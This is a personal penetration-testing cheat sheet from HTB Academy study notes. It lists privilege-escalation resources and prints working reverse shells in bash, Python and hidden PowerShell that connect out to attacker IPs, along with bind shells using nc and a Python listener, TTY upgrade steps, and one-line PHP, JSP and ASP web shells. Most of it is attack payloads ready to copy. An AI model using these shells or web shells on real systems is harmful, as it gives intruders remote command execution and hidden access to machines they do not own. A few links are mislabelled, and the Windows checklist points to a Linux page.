 # HTB ACADEMY Learning Personal Repo


## PrivEsc


### Linux_Checklists

> [Checklist 1](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)  
> [Checklist 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  

### Windows_Checklists

> [Checklist 1](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)  
> [Checklist 2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)  

### List Of Commands for PrivEsc
> [GTFOBins (Linux)](https://gtfobins.github.io/)  
> [LOLBAS (Windows)](https://gtfobins.github.io/)  

## Backdoor shells


### Reverse Shells

> [Villian (For Windows & Linux)](https://github.com/t3l3machus/Villain)

> Bash Shell
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

> Python Shell

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
> Windows Powershell 

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Bind Shells

> Bash Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```


> Python Shell

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

> Windows Powershell

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

### Upgrading TTY

+ We will first run below command:
```python
python -c 'import pty;pty.spawn("/bin/bash")'
```
+ After we run this command, we will hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:
```bash
stty raw -echo;fg
#press 'Enter to continue'
```

+ Fix shell size:

```bash
export TERM=$TERM
stty row 38 columns 169 
```

### Web Shell


> Php Web Shell

```php
<?php system($_REQUEST['cmd']); ?>
```

> Jsp Web Shell

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

> Asp Web Shell

```asp
<% eval request("cmd") %>
```

## References URLs

> [GTFObins](https://gtfobins.github.io)
>
> [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)  
>
> [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)  
>
> [HackTricks](https://book.hacktricks.xyz/welcome/readme)  
>
> [Ippsec (YouTube)](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)  
>
> [Ippsec (Topic Searcher)](https://ippsec.rocks/?#)  
>
> [VbScrub (YouTube)](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)  
>
> [STÖK (YouTube)](https://www.youtube.com/channel/UCQN2DsjnYH60SFBIA6IkNwg)  
>
> [LiveOverflow (YouTube)](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)  
>
> [0xdf hacks stuff(Blog)](https://0xdf.gitlab.io/)  
>
> [Under The Wire (Powershell Tutorial Website)](https://underthewire.tech/)
>
> [Over The Wire (Bash Tutorial Website)](https://overthewire.org/wargames/)
>
> [Magic Unicorn Downgrade Tool (For Windows)](https://github.com/trustedsec/unicorn)

